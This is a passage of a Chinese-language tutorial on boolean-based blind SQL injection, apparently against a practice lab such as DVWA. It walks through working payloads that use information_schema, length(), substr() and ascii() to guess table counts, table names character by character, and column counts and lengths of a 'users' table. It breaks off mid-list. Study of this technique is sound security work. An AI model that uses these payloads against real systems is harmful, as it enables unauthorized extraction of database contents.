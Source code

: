 >           and (select count(table_name) from information_schema.tables where table_schema=database())=2 
>   
>           /* 注释：
>           原理是使用count()这个函数来判断table_name这个表的数量有几个
>           然后后面有一个where判断来指定是当前数据库
>           在末尾有一个 =1 ，意思是判断表有1个，正确那么页面返回正常，错误即返回不正常
>           ```*/
>   
>   -   **猜解每个表名长度**
>   
>       -   ```sql
>           -- # 显⽰存在，tables中第一个表的长度=9，然后调节limit显示的起始位置可以将当前数据库中所有表猜解出
>           1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 
>   
>           注释：
>           select table_name from information_schema.tables where table_schema=database() limit 0,1),1) 这条语句就是substr的str,要截取的字符
>   
>           limit 0,1 这条语句是 limit 子句来限制查询的数量，具体格式是这样的：
>           select * from tableName limit i,n
>           tableName：表名
>           i：为查询结果的索引值(默认从0开始)，当i=0时可省略i
>           n：为查询结果返回的数量
>           i与n之间使用英文逗号","隔开
>           limit n 等同于 limit 0,n
>           limit 0,1 默认0（i）就是从1开始
>           ```
>   
>   -   **猜解每个表名称**
>   
>       -   ```sql
>           -- 控制调节limit以猜解下一个表名
>           -- 猜解第一个表名的第一个字符长度是否为：g
>           and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103 # 返回正常
>   
>           -- 猜解第一个表名的第二个字符长度是否为：u
>           and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=117 # 返回正常
>   
>           -- 猜解第二个表名的第一个字符长度是否为：u
>           and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=117 # 返回正常
>   
>           -- 猜解第二个表名的第二个字符长度是否为：s
>           and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=115 # 返回正常
>   
>           ```
>   
>   -   **猜解表中的字段名长度**
>   
>       -   ```sql
>           -- 判断表名users的字段数量是否为8
>           and (select count(column_name) from information_schema.columns where table_name='users')=8 #
>   
>           -- 猜解第一个字段的长度是否为7：limit 0,1【这里控制第几个字段】),1【不变】))
>           and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1))=7 #
>   
>           -- 猜解第二个字段的长度是否为10：